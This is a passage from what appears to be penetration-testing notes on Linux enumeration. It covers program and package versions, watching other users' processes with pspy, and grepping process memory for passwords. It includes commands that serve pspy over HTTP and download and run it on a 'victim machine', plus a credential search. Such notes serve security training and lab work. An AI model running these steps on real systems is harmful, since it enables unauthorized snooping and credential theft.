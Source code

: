 Enumerate the version of the program that is running:

```bash
absolute/path/of/program_name --version
program_name --version
program_name -v
```

### Package Version

Enumerate the versions of the installed packages:

```bash
dpkg -l #Debian
rpm -qa #Redhat
dpkg -l | grep program_name #Debian
rpm -qa | grep program_name #Redhat
```

### Process Monitoring

We can use [pspy ](https://github.com/DominicBreuker/pspy)to dynamically monitor the processes are running in the system. Pspy is designed to snoop on processes without the need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.&#x20;

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```

On the victim machine, download pspy and execute it:

```
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

### Process Memory

Some services store credentials in plaintext in memory. Since the standard behavior is that low privileged users cannot read data from other users, this technique is most likely to be used when you're a root user but when your current user owns the process that contains the sensitive information then you can read since your user owns it.

#### Credentials in Memory

We can look up for case insensitive strings in a process as follows:

```
strings process_name | grep -i password
```
